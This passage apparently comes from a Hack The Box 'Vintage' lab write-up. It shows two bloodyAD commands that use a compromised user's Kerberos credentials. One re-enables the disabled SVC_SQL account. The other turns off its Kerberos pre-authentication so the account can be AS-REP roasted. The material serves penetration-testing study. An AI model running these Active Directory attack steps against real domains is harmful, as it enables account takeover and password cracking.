 Enable Account:

```bash
bloodyAD --host "dc01.vintage.htb" -d "vintage.htb" --kerberos --dc-ip 10.129.199.135 -u "p.rosa" -p Rosaisbest123 -k remove uac SVC_SQL -f ACCOUNTDISABLE
```

Enable ASREP on an account:

```bash
bloodyAD --host "dc01.vintage.htb" -d "vintage.htb" --kerberos --dc-ip 10.129.199.135 -u "p.rosa" -p Rosaisbest123 -k add uac SVC_SQL -f DONT_REQ_PREAUTH
```

